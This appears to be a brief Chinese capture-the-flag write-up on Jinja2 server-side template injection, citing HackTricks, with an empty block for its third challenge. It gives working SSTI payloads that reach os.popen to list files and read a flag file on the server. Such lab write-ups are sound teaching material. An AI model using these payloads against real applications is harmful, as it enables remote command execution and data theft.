



本大題參考 https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
以及 https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti

# STI01
使用以下 ~~傳說中的奇蹟~~ 指令
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} 
```

# STI02
同第一題
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat FLAG').read()}}
```

# STI03
使用以下 ~~傳說中的第二個奇蹟~~ 指令
```

```

